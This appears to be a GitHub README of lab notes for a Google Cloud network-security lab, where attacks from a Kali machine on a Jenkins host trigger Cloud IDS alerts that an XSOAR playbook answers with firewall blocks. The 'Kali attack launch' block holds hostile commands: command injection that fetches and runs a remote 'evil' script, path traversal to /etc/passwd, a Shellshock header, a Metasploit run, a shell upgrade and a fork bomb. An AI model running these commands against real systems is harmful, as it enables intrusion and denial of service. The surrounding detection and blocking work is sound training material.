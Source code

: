 ### GSP1117 :  Enhancing Google Cloud Network Security 

<img width="895" alt="Ac9SwKvKfspE1ZKfqcy_VZ+IJUJ4sQoqI0fJoNzznv4=" src="https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/5e0ddde9-c38f-40f0-8b29-dda836d1c737">

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/c4830dc2-7d43-44ab-8b47-830a8b701899)


# Kali attack launch against JENKINS 

```
ssh kali@34.168.0.62
//kali

wget www.eicar.org/download/eicar.com.txt --tries 5

curl http://192.168.11.4:8080/?[1-10]

curl "http://192.168.11.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
curl http://192.168.11.20/?item=../../../../WINNT/win.ini
curl http://192.168.11.20/eicar.file
curl http://192.168.11.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.11.20/cgi-bin/test-critical
echo done
```

```
msfconsole -r jenkins.rc

python -c 'import pty; pty.spawn("/bin/bash")'

whoami

:(){ :&:;};:
```

# CloudIDS Query

```
resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-west1-a")
jsonPayload.application="jenkins"
```

# XOAR

```
gcloud pubsub topics create cloud-ids-topic

gcloud pubsub subscriptions create cloud-ids-sub \
    --topic="cloud-ids-topic" \
    --ack-deadline="10" \
    --expiration-period="2678400s" \
    --message-retention-duration="604800s"

gcloud compute firewall-rules create xsoar-blacklist \
    --direction=INGRESS \
    --priority=10 \
    --network=panw-trust-vpc \
    --action=DENY \
    --rules=all \
    --source-ranges=1.1.1.1
```


# Sink Inclusion Filter 

```
logName="projects/qwiklabs-gcp-02-927b48c7055b/logs/ids.googleapis.com%2Fthreat"
jsonPayload.alert_severity="CRITICAL"
```

# XOAR 

```
//Service Account Private Key File (JSON)

//Playbook : Cloud IDS-IP Blacklist-GCP Firewall_Combine
```

![image](https://github.com/tariqsheikhsw/GoogleCloudArchitectLabs/assets/54164634/eb5b8b2d-e4d1-4805-83a3-9dd2192be1bf)


